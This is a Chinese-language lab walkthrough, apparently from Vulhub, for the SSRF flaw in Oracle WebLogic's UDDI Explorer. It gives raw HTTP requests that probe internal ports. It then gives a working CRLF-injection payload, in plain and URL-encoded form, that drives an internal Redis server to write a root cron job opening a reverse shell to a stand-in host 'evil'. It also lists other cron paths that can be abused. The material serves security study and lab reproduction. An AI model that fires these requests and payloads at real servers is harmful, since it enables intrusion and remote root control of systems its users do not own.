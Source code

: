 # Weblogic UDDI Explorer SSRF漏洞

Oracle WebLogic Server是一个基于Java的企业级应用服务器。在WebLogic的UDDI Explorer应用中存在一个服务器端请求伪造（SSRF）漏洞，攻击者可以通过该漏洞发送任意HTTP请求，进而可能导致内网探测或攻击内网中的脆弱服务，如Redis等。

参考链接：

- <https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf>
- <https://foxglovesecurity.com/2015/11/06/what-is-server-side-request-forgery-ssrf/>
- <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>

## 环境搭建

执行如下命令启动WebLogic服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:7001/uddiexplorer/`即可查看UDDI Explorer应用，无需登录认证。

## 漏洞复现

SSRF漏洞存在于SearchPublicRegistries.jsp页面中。我们可以使用Burp Suite向`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`发送请求来测试该漏洞。

首先，我们尝试访问一个内部服务，如`http://127.0.0.1:7001`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

当访问一个可用端口时，会收到一个带有状态码的错误响应。如果访问的是非HTTP协议，则会返回"did not have a valid SOAP content-type"错误。

![](1.png)

当访问一个不存在的端口时，响应会显示"could not connect over HTTP to server"。

![](2.png)

通过分析这些不同的错误信息，我们可以有效地探测内网状态。

### Redis反弹Shell利用

WebLogic的SSRF漏洞有一个显著特点：尽管是GET请求，我们可以通过传入`%0a%0d`来注入换行符。由于Redis等服务使用换行符来分隔命令，我们可以利用这一特性来攻击内网中的Redis服务器。

首先，我们扫描内网中的Redis服务器（Docker网络通常使用172.*网段），发现`172.18.0.2:6379`可以访问：

![](3.png)

然后，我们可以发送三条Redis命令，将shell脚本写入`/etc/crontab`：

```
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

对这些命令进行URL编码：

```
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

通过SSRF漏洞发送编码后的payload：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

![](4.png)

成功获得反弹shell：

![](5.png)

需要注意的是，可以利用的cron位置有以下几处：

- `/etc/crontab`（系统默认定时任务文件）
- `/etc/cron.d/*`（系统定时任务目录）
- `/var/spool/cron/root`（CentOS系统下root用户的定时任务文件）
- `/var/spool/cron/crontabs/root`（Debian系统下root用户的定时任务文件）

